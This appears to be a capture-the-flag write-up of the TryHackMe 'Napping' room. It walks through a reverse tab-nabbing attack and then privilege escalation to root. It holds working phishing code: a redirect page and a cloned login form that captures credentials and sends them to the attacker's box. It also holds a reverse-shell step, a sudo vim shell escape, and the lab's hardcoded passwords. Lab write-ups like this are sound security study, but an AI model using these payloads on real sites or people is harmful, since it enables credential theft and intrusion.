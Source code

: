 # Napping

- Recon revealed 22 and 80. 
- On 80 was a website with a login form (on index.php), register page, reset password page, and a welcome page where you could submit any link with the promise the admin would 'review' it.
- Additionally, there was an /admin/login.php page.

## Foothold

This room was quite tricky - it took me a while to make the connection from the name and the hint: 

**To hack into this machine, you must look at the source and focus on the target.**

Initially I tried XSS but that wasn't working - it seemed to, as in I could place payloads that would affect myself, but the admin wasn't affected. Eventually I made the jump from 'target' and napping - after submitting a link, it was presented back to you as a hyperlink. This was setup with `target="_blank"` - if the admin was setup the same way, then this might be vulnerable to a **tab napping** attack, also called a tab na**bb**ing attack.

> Tab napping is a form of phishing: you create a link with target `_blank`, which will open in a new tab. On the page the user opens, you have script that manipulates the tab the user just came from, via `window.opener`. The idea is while they are on your new tab, you change their old tab into a cloned login form or similar, in the hope that when they return they assume their session has timed out and they re-login.

Also a good link for this: https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

So I set this up, using a PHP webserver on my attack box (`php -S 0.0.0.0:1234` - I had to install the PHP cli on the THM attack box), hosting two files:

**landing.html**:

```html
<script>
        window.opener.location = 'http://10.10.150.135:1234/login.php';
</script>
```

and **login.php**, which logs any input it gets to std out:

```php
<?php
if (isset($_POST["username"])) {
        $stdout = fopen('php://stdout', 'w');
        fwrite($stdout, $_POST["username"] . ":" . $_POST["password"]);
}
?>


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">

        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

Few notes about the above. I spent hours on this and couldn't get it working, because I was cloning the *wrong* login page. As I eventually discovered, the script simulating the admin looks for the presence of the work 'Admin' in the text - if it finds it it posts, otherwise it does nothing.

With this setup, submitting the landing.html url to the form would result in the admin visiting it (on a 1 minute schedule), then visiting my login.php, and then submitting their credentials. These credentials worked to get ssh as `daniel`.

## Path to root

After getting past the tab napping, the rest was easy.

- daniel was a member of the administrators group, which allowed him to write a file called query.py in the other user's home folder, /home/adrian
- adding a reverse shell payload to this (or any python, like something which copied `sh` and set the suid bit) allowed me to get a session as adrian.
- adrian could run vim as sudo, so I got a root shell with `sudo vim -c ':!/bin/sh'`

## Bonus

The script used to simulate the admin for this was as follows:

```python
import requests
import re
import mysql.connector
import string
import random

mydb = mysql.connector.connect(
        host="localhost",
        user="adrian",
        password="Stop@Napping3!",
        database="website"
        )

mycursor = mydb.cursor()

mycursor.execute("SELECT * FROM links")

myresult = mycursor.fetchall()

data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

N = 26

cookie =  ''.join((random.choice(string.ascii_lowercase + string.digits) for x in range(N)))

headers = {
        "PHPSESSID":cookie,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0"
        }

for x in myresult:
    url1 = x[0]


    try:
        r1 = requests.get(url1,headers=headers,timeout=2)
        search = r1.text
        if (search.find('location.replace') != -1):
            match = re.findall("http(.*)\);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

        elif (search.find('opener.location') != -1):
            match = re.findall("http(.*);",search)
            new_url = 'http' + match[0].rstrip(match[0][-1])
            r2 = requests.get(new_url,headers=headers,timeout=2)
            admin_search = r2.text

            if (admin_search.find('Admin') != -1):
                r3 = requests.post(new_url,data=data,headers=headers,timeout=2)

    except requests.exceptions.ReadTimeout:
        continue
```

Quite clever, while also a little dumb: as its not actually processing the javascript, you can have a fun time trying to get clever with the xss to no avail. I tried stealing the cookie multiple ways, which is funny as above its shown that its completely random. Also doing something like `window.opener = <my url> + document.cookie` would result in some weird outputs, specifically receiving a request like `/+document.cookie`.

Finally, it also means you can probably hack the above with one file (could be done with some sort of netcat thing or php id wager):

```
Admin
location.replace("http://10.10.170.246:4444")
```
